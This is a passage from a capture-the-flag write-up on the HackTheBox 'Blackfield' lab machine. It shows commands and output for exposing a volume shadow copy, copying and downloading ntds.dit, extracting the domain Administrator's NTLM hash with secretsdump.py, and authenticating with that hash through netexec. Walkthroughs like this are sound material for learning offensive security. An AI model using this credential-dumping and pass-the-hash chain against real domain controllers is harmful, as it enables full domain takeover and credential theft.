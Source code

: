 ```
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %chrono% z:
-> %chrono% = {9c8474c6-d67a-401e-a611-2649e7f01c8b}
The shadow copy was successfully exposed as z:\.
->
```

Now we can copy the *ntds* file to the current directory and download it.

```
*Evil-WinRM* PS C:\Temp> robocopy /b z:\windows\ntds . ntds.dit
...SNIP...
*Evil-WinRM* PS C:\Temp> download ntds.dit
```

I used **secretsdump.py** again to extract the hashes from *ntds.dit*. Obtained the domain `Administrator`'s hash.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/files]
└─$ secretsdump.py -system system.reg -ntds ntds.dit local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

Successfully gained access over the `Administrator`, which marks this machine as rooted!

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/files]
└─$ netexec smb 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\Administrator:184fb5e5178480be64824d4cd53b99ee (Pwn3d!)
```
